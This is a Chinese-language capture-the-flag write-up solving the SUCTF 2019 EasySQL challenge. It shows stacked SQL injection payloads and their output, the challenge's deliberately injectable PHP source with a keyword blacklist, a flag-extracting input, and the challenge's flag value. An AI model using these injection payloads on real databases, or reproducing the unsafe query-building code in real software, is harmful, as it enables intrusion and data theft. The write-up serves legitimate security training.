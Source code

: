 # [[SUCTF 2019]EasySQL](https://buuoj.cn/challenges#[SUCTF%202019]EasySQL)



## 0x00判断注入点



输入1，提交



结果为



```sql
Array ( [0] => 1 )
```



输入1'or' 1=1 ,提交



结果为



```sql
Nonono.
```



## 0x01使用堆叠注入



查看数据库：



```sql
1; show dababases;
```



结果为



```sql
Array ( [0] => 1 )
Array ( [0] => ctf ) 
Array ( [0] => ctftraining ) 
Array ( [0] => information_schema ) 
Array ( [0] => mysql ) 
Array ( [0] => performance_schema ) 
Array ( [0] => test )
```



没发现flag，继续查看表



```sql
1; show tables;
```



结果为



```sql
Array ( [0] => 1 ) 
Array ( [0] => Flag )
```



## 0x02找到flag表，查看flag表中字段



```sql
1; show columns from Flag;
```



结果为



```sql
Nonono.
```



发现flag显示不出来



## 0x03查看源码



源码



```php
&lt;?php
    session_start();

    include_once "config.php";

    $post = array();
    $get = array();
    global $MysqlLink;

    //GetPara();
    $MysqlLink = mysqli_connect("localhost",$datauser,$datapass);
    if(!$MysqlLink){
        die("Mysql Connect Error!");
    }
    $selectDB = mysqli_select_db($MysqlLink,$dataName);
    if(!$selectDB){
        die("Choose Database Error!");
    }

    foreach ($_POST as $k=&gt;$v){
        if(!empty($v)&amp;&amp;is_string($v)){
            $post[$k] = trim(addslashes($v));
        }
    }
    foreach ($_GET as $k=&gt;$v){
        }
    }
    //die();
?&gt;

&lt;html&gt;
&lt;head&gt;
&lt;/head&gt;

&lt;body&gt;

&lt;a&gt; Give me your flag, I will tell you if the flag is right. &lt;/ a&gt;
&lt;form action="" method="post"&gt;
&lt;input type="text" name="query"&gt;
&lt;input type="submit"&gt;
&lt;/form&gt;
&lt;/body&gt;
&lt;/html&gt;

&lt;?php

    if(isset($post['query'])){
        $BlackList = "prepare|flag|unhex|xml|drop|create|insert|like|regexp|outfile|readfile|where|from|union|update|delete|if|sleep|extractvalue|updatexml|or|and|&amp;|\"";
        //var_dump(preg_match("/{$BlackList}/is",$post['query']));
        if(preg_match("/{$BlackList}/is",$post['query'])){
            //echo $post['query'];
            die("Nonono.");
        }
        if(strlen($post['query'])&gt;40){
            die("Too long.");
        }
        $sql = "select ".$post['query']."||flag from Flag";
        mysqli_multi_query($MysqlLink,$sql);
        do{
            if($res = mysqli_store_result($MysqlLink)){
                while($row = mysqli_fetch_row($res)){
                    print_r($row);
                }
            }
        }while(@mysqli_next_result($MysqlLink));

    }

?&gt;

```



通过源码发现内置的sql语句为



``` php
$sql = "select ".$post['query']."||flag from Flag";
```



## 0x04输入*,1



**如果$post[‘query’]的数据为*,1，sql语句就变成了select *,1||flag from Flag，也就是select *,1 from Flag，也就是直接查询出了Flag表中的所有内容**



flag为



```sql
Array ( [0] => flag{04f36426-1560-4b91-9b0a-c8a6a4aa32d6} [1] => 1 )
```



## 0x05第二种方法



[**设置sql_mode为PIPES_AS_CONCAT**](https://www.cnblogs.com/gtx690/p/13176458.html)



当设置sql_mode为PIPES_AS_CONCAT时，将”||”视为字符串的连接操作符而非或运算符，这和Oracle数据库是一样的，也和字符串的拼接函数Concat相类似



作者

SihUi
